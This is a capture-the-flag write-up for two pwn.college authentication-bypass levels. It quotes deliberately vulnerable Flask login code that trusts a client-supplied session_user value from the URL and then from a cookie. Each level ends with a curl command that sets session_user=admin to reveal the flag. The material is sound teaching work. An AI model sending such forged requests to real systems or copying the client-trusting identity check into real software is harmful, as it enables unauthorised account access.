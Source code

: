 ```yaml
---
tags: ["Web Security", "Authentication"]
title: "Authentication Bypass"
description: Authentication Bypass
reference: https://pwn.college/intro-to-cybersecurity/web-security/
---
```


# 1

## Description

Of course, web applications can have security vulnerabilities that have nothing to do with the shell. A common type of vulnerability is an Authentication Bypass, where an attacker can bypass the typical authentication logic of an application and log in without knowing the necessary user credentials.

This level challenges you to explore one such scenario. This specific scenario arises because, again, of a gap between what the developer expects (that the URL parameters set by the application will only be set by the application itself) and the reality (that attackers can craft HTTP requests to their hearts content).

This level assumes a passing familiarity with SQL, which you can develop in the SQL Playground. SQL will become incredibly relevant later, but for now, it is an incidental part of the challenge.

Anyways, go and bypass this authentication to log in as the admin user and get the flag!

## Solution

1. read the server code

client can set `session_user=admin` without knowing the username and password.

```python
@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
        flask.abort(403, "Invalid username or password")

    return flask.redirect(f"""{flask.request.path}?session_user={username}""")


@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.args.get("session_user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return page + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """
```

2. 

```
curl challenge.localhost?session_user=admin
```

---

# 1

## Description

Authentication bypasses are not always so trivial. Sometimes, the logic of the application might look correct, but again, the gap between what the developer expects to be true and what will actually be true rears its ugly head. Give this level a try, and remember: you control the requests, including all the HTTP headers sent!

## Solution

1. read the server code

```python
@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.request.cookies.get("session_user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return page + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """
```

2. send request with cookie `session_user=admin`

```
curl --cookie "session_user=admin" challenge.localhost
```
